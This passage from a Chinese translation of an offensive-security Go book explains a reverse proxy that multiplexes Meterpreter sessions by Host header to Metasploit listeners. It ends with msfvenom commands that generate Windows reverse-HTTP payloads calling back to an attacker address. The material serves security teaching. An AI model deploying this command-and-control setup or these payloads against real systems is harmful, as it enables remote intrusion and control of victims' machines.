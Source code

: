 ```text
)

func init() {
    hostProxy["attacker1.com"] = "http://10.0.1.20:10080"
    hostProxy["attacker2.com"] = "http://10.0.1.20:20080"

    for k, v := range hostProxy {
        remote, err := url.Parse(v)
        if err != nil {
            log.Fatal("Unable to parse proxy target")
        }
        proxies[k] = httputil.NewSingleHostReverseProxy(remote)
    }
}

func main() {
    r := mux.NewRouter()
    for host, proxy := range proxies {
        r.Host(host).Handler(proxy)
    }
    log.Fatal(http.ListenAndServe(":80", r))
}
```

代码 4-10: 多路复用 Meterpreter \([https://github.com/blackhat-go/bhg/ch-4/multiplexer/main.go/](https://github.com/blackhat-go/bhg/ch-4/multiplexer/main.go/)\)

首先注意的是导入 `net/http/httputil` 包，其含有帮助创建反向代理的功能。这样就不用从头开始创建了。

导入包后，定义了一对map类型的变量。先使用第一个 `hostProxy` 将主机名映射到Metasploit监听器的URL，希望将该主机名路由到该监听器。记住，基于代理在HTTP请求中收到的Host报头。维护该映射是确定目标的一种简单方法。

定义的第二个变量 `proxies` 也使用主机名作为key。然而，map中相应的值为 `*httputil .ReverseProxy` 类型的实例。也就是路由到的真实的代理实例，而不是目标的字符串形式。

注意点硬编码了这些信息，这不是管理配置和代理数据的最优雅方式。更好的方式是将这些信息存储在外部的配置文件中。

使用 `init()` 函数来定义域名和目标Metasploit实例之间的映射。本例中，将所有Host报头值为 `attacker1.com` 的请求路由到 `http://10.0.1.20 :10080`，将所有Host报头值为 `attacker2.com` 的请求路由到 \`[http://10.0.1.20](http://10.0.1.20) :20080。当然，实际上还没有执行路由；这仅创建了基本的配置。注意，这些地址对应于之前为Meterpreter监听器使用的ReverseListenerBindAddress和ReverseListenerBindPort值。

接下来，仍然在 `init()` 函数中，循环遍历 `hostProxy` map，解析终点地址来创建 `net.URL` 实例。调用 `httputil.NewSingleHostReverseProxy (net.URL)` 时将该实例传入，该函数是从URL创建反向代理的辅助函数。更好的是，`httputil.ReverseProxy` 类型符合 `http.Handler` 实例，也就是可以使用创建的代理实例作为路由的处理函数。在 `main()` 函数中，创建路由，然后循环遍历所有的代理实例。回想下该map的键为主机名，值是 `httputil.ReverseProxy` 类型。对于map中的每一对 key/value，在路由上添加匹配函数。Gorilla MUX工具包的路由类型包含一个名为Host的匹配函数，该函数接受一个主机名来匹配传入请求中的Host 报头。对于每一个要检查的主机名，告诉路由使用相应的代理。对于一个复杂的问题来说，这是一个非常简单的解决方案。

通过启动服务来完成程序，绑定到80端口。保存并启动该程序。由于绑定到特别的端口，因此需要作为特别的用户执行此操作。

至此，已经有了两个正在运行的Meterpreter反向HTTP监听器，现在也应该有一个运行中的反向代理。最后一步是生成测试来检验代理是否工作。使用和Metasploit一起发布的负载生成工具 `msfvenom` ，来生成一对Windows可执行文件:

\`\`\`shell script $ msfvenom -p windows/meterpreter\_reverse\_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker1.com -f exe -o payload1.exe $ msfvenom -p windows/meterpreter\_reverse\_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker2.com -f exe -o payload2.exe
